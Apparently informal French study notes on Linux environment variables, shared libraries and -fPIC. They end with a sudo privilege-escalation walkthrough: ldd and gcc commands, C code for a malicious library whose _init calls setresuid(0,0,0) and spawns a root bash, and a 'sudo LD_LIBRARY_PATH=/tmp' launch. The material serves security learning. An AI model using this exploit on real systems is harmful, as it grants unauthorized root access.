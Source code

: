 Définition :

Une var d'environnement c'est juste une variable pour chaque utilisateur. En gros chaque env(user) possède ses propres var d'env. Y'a quoi dedans ? ca dépent de la var.

Bibliothèque partagée/dynamique :

C'est une librairie qui peut être utilisée par plusieurs programmes en même temps sans interférence. Ces librairies ne sont pas entièrement dans le fichier binaire final. Seul le nécessaire est présent.

Programme statique :

Programme qui ne charge pas de bibliothèque dynamique. Tout est entièrement dans le fichier binaire.

Dynamic linker :  
Relie les bibliothèques à un programme. Travail facilité grâce à l'option -fPIC.

-fPIC permet de situer la bibliothèque partagé. c'est une optimisation. En gros, si on lance deux fois le même programme, les deux utiliseront la même copie de la bibliothèque. Par contre, si deux programmes différents utilisent la même bibliothèque, ils auront chacun leur propre copie pour leur propre nécessité. Tout cela facilite la tâche pour le dynamic linker.

Liste des variables d'env avec vulnérabilité :

LD_PRELOAD : Charge des bibliothèques partagées spécifiées pour qu'elles chargent avant toute les autres. Donc par exemple si je créé une fonction print() qui stock des variables (rien a voir avec le vrai print) ce serai la fonction de ma bibliothèque dans LD_PRELOAD qui sera prioritaire.

Exemple de vulnérabilité :

J'ai les permissions pour executer un programme spécifique en sudo (que j'ai vu en faisant sudo -l).

Je regarde quelles librairies sont utilisées donc : ldd emplacement/du/programme.

Je fais gcc -o /tmp/nom_d'une_library qu'il utilise -shared -fPIC /home/user/tools/sudo/library_path.c

-shared pour créer un .so (shared object) partagé. -fPIC pour situer la bibliothèque dynamiquement.

cette commande permet de créer une lib qui a le meme nom qu'un lib que le prog utilise déja pour la remplacer. dans cette lib, on mettra une fonction malvaillante qui aura le meme nom qu'un fonction deja utilisé dans le prog pour la remplacer. Exemple :

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>

void _init() {  
        unsetenv("LD_PRELOAD");  
        setresuid(0,0,0);  
        system("/bin/bash -p");  
}

ensuite, on lance le prog : sudo LD_LIBRARY_PATH=/tmp nom_du_prog ld_library_path dit où chercher la lib partagé (avec la fonction malvaillante) donc dans ce cas ci, dans tmp
